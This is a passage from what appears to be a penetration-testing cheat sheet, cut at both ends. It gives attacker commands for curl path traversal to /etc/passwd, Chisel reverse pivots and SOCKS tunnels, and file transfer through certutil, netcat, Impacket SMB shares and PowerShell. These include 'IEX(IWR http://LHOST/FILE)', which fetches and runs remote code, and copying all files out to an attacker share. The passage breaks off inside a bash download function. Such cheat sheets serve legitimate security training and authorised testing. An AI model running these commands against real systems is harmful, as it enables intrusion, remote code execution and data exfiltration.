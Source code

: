 curl -X PUT http://&lt;DOMAIN&gt;                                                    // use PUT method
curl --path-as-is http://&lt;DOMAIN&gt;/../../../../../../etc/passwd                 // use --path-as-is to handle /../ or /./ in the given URL
curl --proxy http://127.0.0.1:8080                                             // use proxy
curl -F myFile=@&lt;FILE&gt; http://&lt;RHOST&gt;                                          // file upload
curl${IFS}&lt;LHOST&gt;/&lt;FILE&gt;                                                       // Internal Field Separator (IFS) example
</code></pre>
<h4>Chisel</h4>
<h5>Reverse Pivot</h5>
<pre><code class="language-c">./chisel server -p 9002 -reverse -v
./chisel client &lt;LHOST&gt;:9002 R:3000:127.0.0.1:3000
</code></pre>
<h5>SOCKS5 / Proxychains Configuration</h5>
<pre><code class="language-c">./chisel server -p 9002 -reverse -v
./chisel client &lt;LHOST&gt;:9002 R:socks
</code></pre>
<h4>File Transfer</h4>
<h5>Certutil</h5>
<pre><code class="language-c">certutil -urlcache -split -f &quot;http://&lt;LHOST&gt;/&lt;FILE&gt;&quot; &lt;FILE&gt;
</code></pre>
<h5>Netcat</h5>
<pre><code class="language-c">nc -lnvp &lt;LPORT&gt; &lt; &lt;FILE&gt;
nc &lt;RHOST&gt; &lt;RPORT&gt; &gt; &lt;FILE&gt;
</code></pre>
<h5>Impacket</h5>
<pre><code class="language-c">sudo impacket-smbserver &lt;SHARE&gt; ./
sudo impacket-smbserver &lt;SHARE&gt; . -smb2support
copy * \\&lt;LHOST&gt;\&lt;SHARE&gt;
</code></pre>
<h5>PowerShell</h5>
<pre><code class="language-c">iwr &lt;LHOST&gt;/&lt;FILE&gt; -o &lt;FILE&gt;
IEX(IWR http://&lt;LHOST&gt;/&lt;FILE&gt;) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://&lt;LHOST&gt;:&lt;LPORT&gt;/&lt;FILE&gt; -Outfile C:\\temp\\&lt;FILE&gt;
</code></pre>
<h5>Bash only</h5>
<h6>wget version</h6>
<p>Paste directly to the shell.</p>
<pre><code class="language-c">function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag=&quot;Connection: close&quot;
    local mark=0

    if [ -z &quot;${URL}&quot; ]; then
        printf &quot;Usage: %s \&quot;URL\&quot; [e.g.: %s http://www.google.com/]&quot; \
               &quot;${FUNCNAME[0]}&quot; &quot;${FUNCNAME[0]}&quot;
        return 1;
    fi
    read proto server path &lt;&lt;&lt;$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x&quot;${HOST}&quot; == x&quot;${PORT}&quot; ]] &amp;&amp; PORT=80
    [[ $DEBUG -eq 1 ]] &amp;&amp; echo &quot;HOST=$HOST&quot;
    [[ $DEBUG -eq 1 ]] &amp;&amp; echo &quot;PORT=$PORT&quot;
    [[ $DEBUG -eq 1 ]] &amp;&amp; echo &quot;DOC =$DOC&quot;
